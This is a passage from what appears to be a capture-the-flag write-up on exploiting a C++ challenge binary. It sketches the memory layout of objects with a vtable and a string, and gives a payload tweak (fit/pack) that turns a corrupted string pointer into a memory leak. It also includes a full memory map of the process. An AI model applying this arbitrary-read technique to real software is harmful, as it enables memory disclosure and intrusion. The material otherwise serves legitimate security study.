At this point, it might be helpful to describe my approximation of how `Food`/`Bamboo` is represented in memory:

```cpp
struct Food {
	void **_vtable; // _vtable[0] == Eat()
    basic_string name_;
}
struct basic_string {
    union {
        struct {
            char *p; // when capacity>0xf, p holds a pointer to the actual bytes of the string data.
            size_t size; // don't really know what happens to this for capacity < 0x10
        } 
        char buf[0x10];
    }
    size_t capacity;
} // sizeof(basic_string) == 0x20
```

The invalid `favorite` struct has `favorite->name_.p` pointing to `0x4242424242424242`, which necessarily causes a segfault when dereferenced. If I change `b'B'*0x17` in my exploit code to `fit({8: pack(ptr)})+b'B'*7`, I'll be able to leak the contents of `ptr`.

The conditions are not favorable:

```python
Start              End                Offset             Perm Path
0x00005576017e3000 0x00005576018ca000 0x0000000000000000 r-x chall
0x0000557601ac9000 0x0000557601ad1000 0x00000000000e6000 r-- chall
0x0000557601ad1000 0x0000557601ad2000 0x00000000000ee000 rw- chall
0x0000557601ad2000 0x0000557601ad5000 0x0000000000000000 rw-
0x0000557603514000 0x0000557603535000 0x0000000000000000 rw- [heap]
0x00007f2678706000 0x00007f2678709000 0x0000000000000000 rw-
0x00007f2678709000 0x00007f267872e000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f267872e000 0x00007f26788a6000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788a6000 0x00007f26788f0000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f0000 0x00007f26788f1000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f1000 0x00007f26788f4000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f4000 0x00007f26788f7000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f7000 0x00007f26788fb000 0x0000000000000000 rw-
0x00007f26788fb000 0x00007f267890a000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f267890a000 0x00007f26789b1000 0x000000000000f000 r-x /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f26789b1000 0x00007f2678a48000 0x00000000000b6000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a48000 0x00007f2678a49000 0x000000000014c000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a49000 0x00007f2678a4a000 0x000000000014d000 rw- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a4a000 0x00007f2678a4c000 0x0000000000000000 rw-
0x00007f2678a62000 0x00007f2678a63000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a63000 0x00007f2678a86000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a86000 0x00007f2678a8e000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a8f000 0x00007f2678a90000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a90000 0x00007f2678a91000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a91000 0x00007f2678a92000 0x0000000000000000 rw-
0x00007fffb3172000 0x00007fffb3193000 0x0000000000000000 rw- [stack]
0x00007fffb31b6000 0x00007fffb31b9000 0x0000000000000000 r-- [vvar]
0x00007fffb31b9000 0x00007fffb31ba000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```
